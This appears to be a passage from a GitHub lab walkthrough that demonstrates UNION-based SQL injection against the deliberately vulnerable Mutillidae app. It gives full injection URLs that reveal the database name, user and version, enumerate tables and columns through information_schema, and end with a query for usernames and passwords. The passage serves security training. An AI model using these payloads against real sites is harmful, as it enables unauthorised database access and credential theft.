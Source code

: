  Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details



![image](https://github.com/Saranyaaav/sqlinjection/assets/144870813/1036a2b9-0139-47b6-b75f-8bdcc8faf698)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5.
In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one:
union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’


http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/Saranyaaav/sqlinjection/assets/144870813/8fb2a9d0-5309-479d-a607-c0645a3e2709)


The url once executed will  retrieve table names from the “owasp 10” database.
##Extracting sensitive data such as passwords 

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.



![image](https://github.com/Saranyaaav/sqlinjection/assets/144870813/fcff37b7-ce69-4e98-9146-20637c88f70c)

The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details 

![image](https://github.com/Saranyaaav/sqlinjection/assets/144870813/c1cd7cc9-ed67-4e19-8184-1074cdc84107)






Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).
